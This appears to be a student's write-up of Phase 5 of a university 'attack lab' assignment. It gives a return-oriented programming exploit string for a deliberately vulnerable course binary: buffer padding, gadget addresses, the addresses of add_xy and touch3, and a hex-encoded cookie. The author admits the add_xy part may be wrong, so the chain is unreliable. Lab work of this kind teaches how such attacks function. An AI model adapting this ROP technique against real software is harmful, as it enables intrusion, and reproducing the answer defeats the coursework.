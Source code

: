 ### **Phase 5** 

This phase was difficult for me to solve with complexity and time I had.

I believe I almost completed it but my add_xy area may have some error(s).

This is what I had 

```
/* Buffer - 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Move %rsp into %rax */
/* 48 89 e0 c3 */
/* 401fe7 + 3 */
ea 1f 40 00 00 00 00 00


/* Move %rax into %rdi
/* 48 89 c7 c3 */
/* 401f3e + 1 */
3f 1f 40 00 00 00 00 00


/* Pop %rax */
/* 58 */
/* 401f33 + 2 */
35 1f 40 00 00 00 00 00


/* Empty Row of Zeros */
48 00 00 00 00 00 00 00


/* Move eax into ecx */
/* 89 c1 */
/* 402072 + 1 */
73 20 40 00 00 00 00 00


/* Move ecx into edx */
/* 89 ca */
/* 4020b1 + 2 */
b3 20 40 00 00 00 00 00

/* Move edx into esi */
/* 89 d6 */
/* 401f90 + 2 */
92 1f 40 00 00 00 00 00

/* Address of add_xy */
/* 401f7c */
84 1f 40 00 00 00 00 00

/* Move %rax into %rdi */
/* Same as above */
3f 1f 40 00 00 00 00 00

/* Address of touch3 */
/* 0x401e6b */
6b 1e 40 00 00 00 00 00

/* Hex translation of cookie: 0x33f72ca5 */
33 33 66 37 32 63 61 35 00
```

Good luck.